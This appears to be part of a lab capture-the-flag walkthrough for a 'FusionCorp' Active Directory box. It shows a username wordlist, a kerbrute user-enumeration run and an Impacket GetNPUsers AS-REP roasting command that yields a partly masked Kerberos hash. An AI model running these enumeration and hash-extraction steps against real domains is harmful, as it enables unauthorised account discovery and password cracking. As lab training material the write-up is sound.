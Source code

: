 <br>

<h3>usernames.txt</h3>

```bash
jmickel
aarnold
llinda
jpowel
dvroslav
tjefferson
nmaurin
mladovic
lparker
kgarland
dpertersen
```

<br>

<h3>kerbrute</h3>
<p>

- <code>lparker@fusion.corp</code></p>

```bash
:~/FusionCorp# kerbrute userenum --dc TargetIP -d fusion.corp usernames.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 08/09/25 - Ronnie Flathers @ropnop

2025/08/09 xx:xx:xx >  Using KDC(s):
2025/08/09 xx:xx:xx >  	TargetIP

2025/08/09 xx:xx:xx >  [+] VALID USERNAME:	 lparker@fusion.corp
2025/08/09 xx:xx:xx >  Done! Tested 11 usernames (1 valid) in 0.157 seconds
```

<br>
<h3>GetNPUsers</h3>

```bash
:~/FusionCorp# python3 /usr/local/bin/GetNPUsers.py fusion.corp/lparker -dc-ip TargetIP -no-pass
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] Getting TGT for lparker
$krb5asrep$23$lparker@FUSION.CORP:3c81999a4b32357********************2e973b8149cbe2bacbf80991412a98f60a49739acc9115e999c43e62f25c6f1e6cc616d28e5acec460aa2a63de1d6bd8ca0d86f07b71a7075411cc854e81c3608c60a96b6e3988745222464a504c7a7707d76bb47bb081f11d6a0c5da352aa2a92b1346a73f86d44111a4ed7f575c8fc54c7d744f63416fb64aed6508da51b70db6c26b773f3a12b25e3713b551e9e0e59b6ae7bc82a3c2ad95357b00c40072d4dabf502fd902361cf9a6e3a25c09424773defd9c458476ac0d26c94be600f14a3641f0a049cf269a8ab388ba927bd88c1019d9d63071c0e468f55d5749564d59ccce1b363d1c8c131
```
